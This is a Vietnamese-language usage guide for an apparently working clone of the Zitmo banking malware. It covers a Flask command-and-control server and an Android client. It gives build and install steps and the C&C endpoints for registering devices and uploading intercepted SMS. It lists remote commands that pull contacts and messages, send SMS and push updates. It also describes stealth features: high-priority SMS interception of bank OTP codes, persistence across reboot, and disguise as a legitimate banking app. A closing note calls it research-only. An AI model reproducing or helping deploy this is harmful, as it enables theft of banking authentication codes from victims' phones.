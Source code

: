 # Hướng dẫn sử dụng Zitmo C&C Server và Client

## 1. Tổng quan

Hệ thống mô phỏng Zitmo bao gồm hai thành phần chính:

1. **Máy chủ C&C** (Command & Control) - `c2server.py`
2. **Client Android** - `ZitmoAndroidClient.java`

Hệ thống này mô phỏng cách thức hoạt động của malware Zitmo (Zeus-in-the-Mobile) trong việc đánh cắp thông tin xác thực từ thiết bị di động, đặc biệt là các mã xác thực OTP/mTAN trong giao dịch ngân hàng.

## 2. Thiết lập và khởi động máy chủ C&C

### Yêu cầu
- Python 3.6+
- Flask
- SQLite3

### Cài đặt
```
pip install flask
```

### Khởi động máy chủ
```
python c2server.py
```

Máy chủ sẽ hoạt động trên cổng 5000. Bạn có thể truy cập bảng điều khiển quản trị tại:
```
http://localhost:5000/admin
```

## 3. Xây dựng và cài đặt client Android

### Yêu cầu
- Android Studio 
- JDK 8 trở lên
- Thiết bị Android thực hoặc máy ảo chạy Android 5.0+

### Xây dựng APK
1. Tạo project Android mới trong Android Studio
2. Thêm tất cả các file từ mã nguồn đã cung cấp
3. Cập nhật địa chỉ IP của máy chủ C&C trong `ZitmoUtils.java`:
   ```java
   private static final String SERVER_URL_DEFAULT = "http://YOUR_SERVER_IP:5000";
   ```
4. Biên dịch và tạo APK: Build > Build Bundle(s) / APK(s) > Build APK(s)
5. APK sẽ được tạo trong thư mục `app/build/outputs/apk/debug/`

### Cài đặt APK trên thiết bị
1. Bật "Cài đặt từ nguồn không xác định" trong cài đặt bảo mật của thiết bị
2. Cài đặt APK bằng cách mở file APK trên thiết bị
3. Mở ứng dụng và cấp tất cả các quyền được yêu cầu
4. Nhấn "Kích hoạt ngay" để khởi động dịch vụ

## 4. Các API Endpoint trên máy chủ C&C

### 1. Đăng ký thiết bị
- **Endpoint**: `/register`
- **Method**: POST
- **Body**:
```json
{
    "device_id": "unique_device_identifier",
    "device_info": "thông tin thiết bị",
    "phone_number": "số điện thoại của thiết bị",
    "operator": "nhà mạng di động"
}
```

### 2. Gửi SMS bị chặn
- **Endpoint**: `/intercepted_sms`
- **Method**: POST
- **Body**:
```json
{
    "device_id": "unique_device_identifier",
    "sender": "người gửi SMS",
    "message": "nội dung SMS",
    "timestamp": "thời gian nhận"
}
```

### 3. Ping và nhận lệnh mới
- **Endpoint**: `/ping`
- **Method**: POST
- **Body**:
```json
{
    "device_id": "unique_device_identifier"
}
```

### 4. Báo cáo thực thi lệnh
- **Endpoint**: `/command_executed`
- **Method**: POST
- **Body**:
```json
{
    "device_id": "unique_device_identifier",
    "command_id": command_id,
    "result": "kết quả thực thi lệnh"
}
```

## 5. Gửi lệnh từ bảng điều khiển admin

1. Truy cập bảng điều khiển admin tại http://localhost:5000/admin
2. Chuyển đến tab "Lệnh điều khiển"
3. Chọn thiết bị mục tiêu từ danh sách
4. Chọn loại lệnh:
   - `get_contacts` - Lấy danh bạ
   - `get_sms` - Lấy tin nhắn (có thể chỉ định giới hạn số lượng)
   - `send_sms` - Gửi tin nhắn (cần chỉ định số người nhận và nội dung)
   - `update` - Cập nhật ứng dụng (cần chỉ định URL tải)
   - `uninstall` - Gỡ cài đặt ứng dụng
5. Nhập dữ liệu lệnh (nếu cần) theo định dạng JSON
6. Nhấn "Gửi lệnh"

Ví dụ dữ liệu lệnh:
- Lệnh `get_sms`: `{"limit": 50}`
- Lệnh `send_sms`: `{"to": "+84123456789", "message": "Đây là tin nhắn kiểm tra"}`

## 6. Cách thức hoạt động

1. Client Zitmo đăng ký với máy chủ C&C khi được cài đặt hoặc khởi động
2. Client lắng nghe và chặn tin nhắn SMS đến, gửi các SMS liên quan đến mTAN/OTP về máy chủ
3. Client ping máy chủ định kỳ (mặc định: 15 phút/lần) để báo cáo trạng thái và nhận lệnh mới
4. Client thực thi các lệnh từ máy chủ và báo cáo kết quả

## 7. Tính năng bảo mật và ẩn mình

- Lắng nghe SMS với độ ưu tiên cao (999) để có thể chặn tin nhắn trước khi ứng dụng khác nhận được
- Tự khởi động khi thiết bị khởi động
- Sử dụng foreground service và wakeLock để duy trì hoạt động ngay cả khi thiết bị vào chế độ ngủ
- Tự khởi động lại nếu bị hệ thống kết thúc
- Giả mạo ứng dụng ngân hàng hợp pháp với giao diện thân thiện để người dùng không nghi ngờ

## 8. Lưu ý quan trọng

- Mã nguồn này **CHỈ** phục vụ mục đích nghiên cứu, giáo dục và thử nghiệm trên thiết bị của chính bạn
- **KHÔNG** sử dụng với mục đích độc hại hoặc trên thiết bị của người khác khi không được phép
- Trong môi trường thực tế, cần bổ sung các biện pháp bảo mật như HTTPS, mã hóa dữ liệu, xác thực